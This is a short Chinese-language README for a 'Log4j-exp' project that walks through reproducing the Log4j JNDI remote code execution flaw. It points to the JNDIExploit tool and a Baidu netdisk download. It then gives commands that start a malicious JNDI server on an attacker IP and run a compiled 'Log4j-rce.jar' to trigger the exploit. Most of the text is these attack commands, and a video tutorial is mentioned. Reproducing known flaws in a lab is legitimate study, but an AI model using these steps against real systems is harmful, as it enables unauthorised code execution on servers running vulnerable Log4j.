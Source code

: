 # Log4j-exp
帮助你快速复现Log4j漏洞   
           
首先你可以去百度网盘或者github下载所需要的jar包来更方便快捷的开起jndi   
`https://github.com/feihong-cs/JNDIExploit`    
`https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5 `      
         
下载完成之后使用以下命令开一个jndi   
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip`         

        
下载本项目之后使用idea编译将项目编译为jar之后使用以下命令触发   
`java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar`         
    
下方是视频演示教学地址相信我你也可以变成光   
``    

非常感谢HMCDC的分享
